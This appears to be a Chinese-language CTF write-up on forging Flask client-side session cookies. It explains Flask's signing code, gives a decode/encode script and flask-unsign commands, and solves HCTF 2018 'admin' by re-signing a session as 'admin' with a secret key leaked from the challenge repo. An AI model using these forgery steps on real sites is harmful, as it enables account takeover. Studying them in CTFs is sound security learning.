

楔子
在写HCTF2018-admin题目的时候，遇到了flask中session伪造的问题，打算研究一下
一、cookie和session的一些小姿势
1、cookie：
在网站中，http请求是无状态的。也就是说即使第一次和服务器连接后并且登录成功后，第二次请求服务器依然不能知道当前请求是哪个用户。cookie的出现就是为了解决这个问题，第一次登录后服务器返回一些数据（cookie）给浏览器，然后浏览器保存在本地，当该用户发送第二次请求的时候，就会自动的把上次请求存储的cookie数据自动的携带给服务器，服务器通过浏览器携带的数据就能判断当前用户是哪个了。cookie存储的数据量有限，不同的浏览器有不同的存储大小，但一般不超过4KB。因此使用cookie只能存储一些小量的数据。
2、session:
session和cookie的作用有点类似，都是为了存储用户相关的信息。不同的是，cookie是存储在本地浏览器，而session存储在服务器。存储在服务器的数据会更加的安全，不容易被窃取。但存储在服务器也有一定的弊端，就是会占用服务器的资源，但现在服务器已经发展至今，一些session信息还是绰绰有余的。
3、cookie和session结合使用：（其实个人感觉就是单纯用了cookie的功能）
web开发发展至今，cookie和session的使用已经出现了一些非常成熟的方案。在如今的市场或者企业里，一般有两种存储方式：
1、存储在服务端：通过cookie存储一个session_id，然后具体的数据则是保存在session中。如果用户已经登录，则服务器会在cookie中保存一个session_id，下次再次请求的时候，会把该session_id携带上来，服务器根据session_id在session库中获取用户的session数据。就能知道该用户到底是谁，以及之前保存的一些状态信息。这种专业术语叫做server side session。
2、将session数据加密，然后存储在cookie中。这种专业术语叫做client side session。flask采用的就是这种方式，但是也可以替换成其他形式。
二、源码分析一下
他的session存储在客户端的cookie字段中，为了防止session篡改，flask进行了如下的处理，代码存放在flask模块中python3\Lib\site-packages\flask\sessions.py文件中。
class SecureCookieSessionInterface(SessionInterface):
"""The default session interface that stores sessions in signed cookies
through the :mod:`itsdangerous` module.
"""
#: the salt that should be applied on top of the secret key for the
#: signing of cookie based sessions.
salt = "cookie-session"
#: the hash function to use for the signature. The default is sha1
digest_method = staticmethod(hashlib.sha1)
#: the name of the itsdangerous supported key derivation. The default
#: is hmac.
key_derivation = "hmac"
#: A python serializer for the payload. The default is a compact
#: JSON derived serializer with support for some extra Python types
#: such as datetime objects or tuples.
serializer = session_json_serializer
session_class = SecureCookieSession
def get_signing_serializer(self, app):
if not app.secret_key:
return None
signer_kwargs = dict(
key_derivation=self.key_derivation, digest_method=self.digest_method
)
return URLSafeTimedSerializer(
app.secret_key,
salt=self.salt,
serializer=self.serializer,
signer_kwargs=signer_kwargs,
)最后生成的session长这样json->zlib->base64后的源字符串 . 时间戳 . hmac签名信息
比如我生成这样的eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn4pw.6KQvoMiQZo1Ttjr4dFJ7e0AN45U
这是由{'_permanent': True, 'username': 'st4ck'}，密钥为admin生成的
三、flask的session实战
from flask import Flask,session
import os
from datetime import timedelta
app = Flask(__name__)
app.config['SECRET_KEY']='admin' #设置为24位的字符,每次运行服务器都是不同的，所以服务器启动一次上次的session就清除。
app.config['PERMANENT_SESSION_LIFETIME']=timedelta(days=7) #设置session的保存时间。
@app.route('/')
def hello_world():
session.permanent=True #默认session的时间持续31天
session['username'] = 'st4ck'
return 'Hello World!'
#获取session
@app.route('/get/')
def get():
return session.get('username')
#删除session
@app.route('/delete/')
def delete():
print(session.get('username'))
session.pop('username')
print(session.get('username'))
return 'delete'
#清楚session
@app.route('/clear/')
def clear():
print(session.get('username'))
session.clear()
print(session.get('username'))
return 'clear'
if __name__ == '__main__':
app.run(debug=True)我们运行/,然后get请求后获得

获得session为
eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn3eg.zBDV4huj8XGiRbFjSPMZq1HeV5Y四、session安全问题
其实生成上面的session居然是可以破解的！！！但是没有SECRET_KEY我们无法伪造，可以选择爆破但是一定要拿到SECRET_KEY才能伪造
方法1：使用flask-unsign工具
安装$ pip3 install flask-unsign
命令行就可以直接使用$ flask-unsign
C:\Users\38138\Desktop>flask-unsign --sign --cookie "{'_permanent': True, 'username': 'st4ck'}" --secret "admin"
eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn-9Q.uNm3a4894t-TZogqY-Ab4M0HDz4
C:\Users\38138\Desktop>flask-unsign --decode --cookie "eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn-9Q.uNm3a4894t-TZogqY-Ab4M0HDz4"
{'_permanent': True, 'username': 'st4ck'}方法2：使用脚本
import sys
import zlib
from itsdangerous import base64_decode
import ast
# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
from abc import ABCMeta, abstractmethod
else: # > 3.4
from abc import ABC, abstractmethod
# Lib for argument parsing
import argparse
# external Imports
from flask.sessions import SecureCookieSessionInterface
class MockApp(object):
def __init__(self, secret_key):
self.secret_key = secret_key
if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
class FSCM(metaclass=ABCMeta):
def encode(secret_key, session_cookie_structure):
""" Encode a Flask session cookie """
try:
app = MockApp(secret_key)
session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
raise e
def decode(session_cookie_value, secret_key=None):
""" Decode a Flask cookie """
try:
if(secret_key==None):
compressed = False
payload = session_cookie_value
if payload.startswith('.'):
compressed = True
payload = payload[1:]
data = payload.split(".")[0]
data = base64_decode(data)
if compressed:
data = zlib.decompress(data)
return data
else:
app = MockApp(secret_key)
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.loads(session_cookie_value)
except Exception as e:
return "[Decoding error] {}".format(e)
raise e
else: # > 3.4
class FSCM(ABC):
def encode(secret_key, session_cookie_structure):
""" Encode a Flask session cookie """
try:
app = MockApp(secret_key)
session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
raise e
def decode(session_cookie_value, secret_key=None):
""" Decode a Flask cookie """
try:
if(secret_key==None):
compressed = False
payload = session_cookie_value
if payload.startswith('.'):
compressed = True
payload = payload[1:]
data = payload.split(".")[0]
data = base64_decode(data)
if compressed:
data = zlib.decompress(data)
return data
else:
app = MockApp(secret_key)
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.loads(session_cookie_value)
except Exception as e:
return "[Decoding error] {}".format(e)
raise e
if __name__ == "__main__":
print(FSCM.decode("eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn3eg.zBDV4huj8XGiRbFjSPMZq1HeV5Y"))
参考
flask session 加解密工具：https://github.com/noraj/flask-session-cookie-manager
SECRET_KEY 爆破工具:https://github.com/Paradoxis/Flask-Unsign
五、[HCTF 2018]admin
有一个注册界面

我们注册一个
st4ck123qwe的账号，然后session解密
C:\Users\38138\Desktop>flask-unsign --decode --cookie ".eJw9kEGLwjAQhf_KkrOHNtaL4GGX1mBhJlRSQ-Yibq22iXGhVagR__sGF_YwpzfvmzfvyfanoR07trwN93bG9v2RLZ_s45stGaiaS00dCfMgv-viOLKlB2-C1NVE-WZOAjIpSkd5aY1eXyBsFlIXKYqdx5wcKbRkPzOpHCfVpKQ2E-RowRcLE1wGAeZojz3wnUNecxPvyBwSFOtOiopL1cQMdQIaHSo3kS57UFsHNu5Y7I0vONpqxV4z1ozDaX_7ce31_wUUeCFLF1TnCfMqWiCR6uhRw0Sq7CA0D7ImRoBA6stjKFKqVm9c7w_n9p_Urrdlff5TrgcfBTbessaxGbuP7fDujaUJe_0C4HFsfw.Xbn_9Q.LN7SQgH0-wJ_7nD5E8h8KRKXEKM"
{'_fresh': True, '_id': b'1569fadf2feafedf2f2f39d1d27dc88bdd2caae3299a54ef46de3cf08996e75e2103c2a9c9833767b3ed7e6bea8344aa8d69769e41cd591ebb14d23463bba664', 'csrf_token': b'4cef6e58144463497f5c1e2a372f67633e0f715e', 'image': b'xTIR', 'name': 'st4ck', 'user_id': '10'}在修改密码的地方获得github地址https://github.com/woadsl1234/hctf_flask/
在config.py里获得SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
于是我们拿着ckj123来伪造
C:\Users\38138\Desktop>flask-unsign --sign --cookie "{'_fresh': True, '_id': b'1569fadf2feafedf2f2f39d1d27dc88bdd2caae3299a54ef46de3cf08996e75e2103c2a9c9833767b3ed7e6bea8344aa8d69769e41cd591ebb14d23463bba664', 'csrf_token': b'4cef6e58144463497f5c1e2a372f67633e0f715e', 'image': b'xTIR', 'name': 'admin', 'user_id': '10'}" --secret "ckj123"
.eJw9kEGLwjAQhf_KkrOHNupF8LBLa7AwEyqpIXMRbattYlyoCjXif9_ggoc5vXnfvHlPtjsO7bVji9twbyds1zds8WRfB7ZgoCouNXUkzIP8tovjyBYevAlSlyNl6ykJmElROMoKa_TqDGE9lzpPUWw9ZuRIoSX7PZPKcVJ1Smo9QoYWfD43wc0gwBRt0wPfOuQVN_GOzCBBseqkKLlUdcxQJaDRoXIj6aIHtXFg447F3vicoy2X7DVh9XU47m6_rr18XkCBZ7J0RnUaMSujBRKpGo8aRlJFB6F-kDUxAgRSPx5DnlK5fON6vz-1H1K72hTV6V-57H0U2L7x_YVN2P3aDu_eWJqw1x_isWyf.XboBVw.SUcm9Kffci1R5O3u9w-lcq21QMo在浏览器修改cookie中的session值后直接就拿到了flag